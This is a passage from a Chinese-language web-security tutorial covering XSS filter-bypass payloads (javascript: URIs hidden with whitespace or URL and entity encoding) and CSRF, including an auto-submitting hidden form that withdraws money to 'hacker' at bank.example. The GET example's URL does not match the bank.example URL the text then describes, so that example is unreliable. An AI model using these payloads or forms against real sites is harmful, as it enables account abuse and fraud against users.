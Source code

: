 ```HTML
<table background="javascript:alert(/xss/)"></table>
<img src="javascript:alert('xss')">
```

还可以使用各种方式来回避检查，例如空格，回车，Tab

```HTML
<img src="javas cript:
alert('xss')">
```

还可以通过各种编码（URL 编码，Unicode 编码，html 编码，ESCAPE 等）来绕过检查）

```html
<img%20src=%22javascript:alert('xss');%22">
<img src="javascript&#116&#58alert(/xss/)">
```

## CSRF

CSRF: 攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台用户验证，达到冒充用户对被攻击的网站执行某项操作的目的

- 受害者登陆了 a 网站，并保留了登录凭证
- 攻击者引诱受害者访问了 b 网站
- b 向 a 网站发送了一个请求：`a.com/act=x`浏览器会默认携带 a 网站的 Cookie
- a 网站收到请求后，对请求进行验证，并确认是受害者的凭证，误以为是受害者自己发送的请求
- a 网站以受害者的名义执行了 act=x
- 攻击完成，攻击者在受害者完全不知情的情况下，冒充受害者，让 a 网站执行了自己定义的操作

### CSRF 的攻击类型

#### GEt 类型的 CSRF

GET 类型的 CSRF 利用非常简单，只需要一个 HTTP 请求，一般会这样利用

```
https://awps-assets.meituan.net/mit-x/blog-images-bundle-2018b/ff0cdbee.example/withdraw?amount=10000&for=hacker
```

在受害者访问含有这个 img 的页面后，浏览器就会自动向`http://bank.example/withdraw?account=xiaoming&amount=10000&for=hacker`发出一次 HTTP 请求。bank.example 就会收到包含受害者登录信息的一次跨域请求。

#### POST 类型的 CSRF

这种类型的 CSRF 利用起来通常使用的是一个自动提交的表单，如：

```html
<form action="http://bank.example/withdraw" method="POST">
  <input type="hidden" name="account" value="xiaoming" />
  <input type="hidden" name="amount" value="10000" />
  <input type="hidden" name="for" value="hacker" />
</form>
<script>
  document.forms[0].submit();
</script>
```
